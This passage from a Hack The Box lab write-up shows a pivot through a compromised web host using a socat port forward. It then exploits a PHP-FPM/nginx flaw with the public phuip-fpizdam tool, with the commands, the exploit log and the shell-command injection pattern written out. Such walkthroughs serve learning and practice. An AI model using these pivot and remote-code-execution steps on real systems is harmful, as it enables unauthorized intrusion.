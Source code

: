 Seems like I'll need to use this web box as a sort of proxy to pivot to the pki machine. I setup a web server on my attacker machine and served a socat binary to the web machine and ran this on the web machine:
```
./socat TCP4-LISTEN:7777,fork,reuseaddr TCP4:192.168.254.3:80 &
```

Now, any traffic I send to the web machine on port 7777 should get forwarded to the pki machine on port 80. The flow would be like this:
```text
traffic -> 172.20.0.10:7777 -> 192.168.254.3:80
```

This works, I also proxy my attackers traffic to the web machine using burp... We see in the responses the ersatool output again, looking at the headers we see PHP-FPM and nginx. 
```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 12 Nov 2021 22:06:43 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP-FPM/7.1
Content-Length: 53

batch mode: /usr/bin/ersatool create|print|revoke CN
```

Let's look up php-fpm on searchsploit:
```
searchsploit php-fpm
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
PHP-FPM + Nginx - Remote Code Execution                     | php/webapps/47553.md
PHP-FPM - Underflow Remote Code Execution (Metasploit)      | php/remote/48182.rb
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Could be promising. I learned a good deal about this vulnerability here:
[https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html][4]

I ended up using this repository's code to exploit php-fpm:
[https://github.com/neex/phuip-fpizdam][5]

```text
[bin] λ ./phuip-fpizdam "http://172.20.0.10:7777/index.php"
2021/11/12 16:06:10 Base status code is 200
2021/11/12 16:06:19 Status code 502 for qsl=1765, adding as a candidate
2021/11/12 16:06:25 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2021/11/12 16:06:29 Attack params found: --qsl 1755 --pisos 20 --skip-detect
2021/11/12 16:06:29 Trying to set "session.auto_start=0"...
2021/11/12 16:06:37 Detect() returned attack params: --qsl 1755 --pisos 20 --skip-detect <-- REMEMBER THIS
2021/11/12 16:06:37 Performing attack using php.ini settings...
2021/11/12 16:06:46 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2021/11/12 16:06:46 Trying to cleanup /tmp/a...
2021/11/12 16:06:47 Done!
```


[1]: https://app.hackthebox.com/users/114053
[2]: https://www.hackthebox.eu
[3]: https://totp.danhersam.com/
[4]: https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html
[5]: https://github.com/neex/phuip-fpizdam